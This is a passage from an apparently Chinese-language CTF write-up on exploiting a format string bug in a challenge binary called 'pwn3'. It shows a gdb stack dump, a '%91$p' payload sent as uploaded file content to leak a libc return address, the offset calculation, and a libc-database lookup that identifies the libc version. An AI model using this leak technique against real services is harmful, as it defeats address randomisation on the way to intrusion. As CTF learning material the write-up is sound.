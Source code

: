 ```
0312| 0xbffff028 ("dmin")
0316| 0xbffff02c --> 0x8048a00 (<ask_password+42>:	addal,0x24)
0320| 0xbffff030 --> 0x1 
0324| 0xbffff034 --> 0xbffff0f4 --> 0xbffff2cb ("/home/mask/format_pwn/CCTF/pwn3")
0328| 0xbffff038 --> 0xbffff0fc --> 0xbffff2eb ("XDG_VTNR=7")
0332| 0xbffff03c --> 0xb7e37c0b (<__GI___cxa_atexit+27>:	addesp,0x10)
0336| 0xbffff040 --> 0xb7fbb3dc --> 0xb7fbc1e0 --> 0x0 
0340| 0xbffff044 --> 0x8048288 --> 0x77 ('w')
0344| 0xbffff048 --> 0x8048aab (<__libc_csu_init+11>:	addebx,0x1555)
0348| 0xbffff04c --> 0x1 
0352| 0xbffff050 --> 0xb7fbb000 --> 0x1b1db0 
0356| 0xbffff054 --> 0xb7fbb000 --> 0x1b1db0 
0360| 0xbffff058 --> 0x0 
0364| 0xbffff05c --> 0xb7e21637 (<__libc_start_main+247>:	addesp,0x10)
0368| 0xbffff060 --> 0x1 
0372| 0xbffff064 --> 0xbffff0f4 --> 0xbffff2cb ("/home/mask/format_pwn/CCTF/pwn3")
0376| 0xbffff068 --> 0xbffff0fc --> 0xbffff2eb ("XDG_VTNR=7")
0380| 0xbffff06c --> 0x0 
0384| 0xbffff070 --> 0x0 
0388| 0xbffff074 --> 0x0 
0392| 0xbffff078 --> 0xb7fbb000 --> 0x1b1db0 
0396| 0xbffff07c --> 0xb7fffc04 --> 0x0 
--More--(100/100)
```

可以看到在栈上第91个位置存在__libc_start_main+247,即__libc_start_main_ret的地址，那么构造`printf("%91$p")`即可以将该地址的值泄露出来：
​    

```
mask@mask-virtual-machine:~/format_pwn/CCTF$ ./pwn3 
Connected to ftp.hacker.server
220 Serv-U FTP Server v6.4 for WinSock ready...
Name (ftp.hacker.server:Rainism):rxraclhm
welcome!
ftp>put
please enter the name of the file you want to upload:test
then, enter the content:%91$p
ftp>get
enter the file name you want to get:test
0xb7e21637ftp>
```

验证了确实和调试时栈上显示的一样，那么

`__libc_start_main`的地址为:` 0xb7e21637-f7(16进制的247） = 0xb7e21540`

这里使用一个工具libc-database，非常方便查找libc版本
​    

```
mask@mask-virtual-machine:~/libc-database$ ./find __libc_start_main 0xb7e21540
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu9_amd64)
```
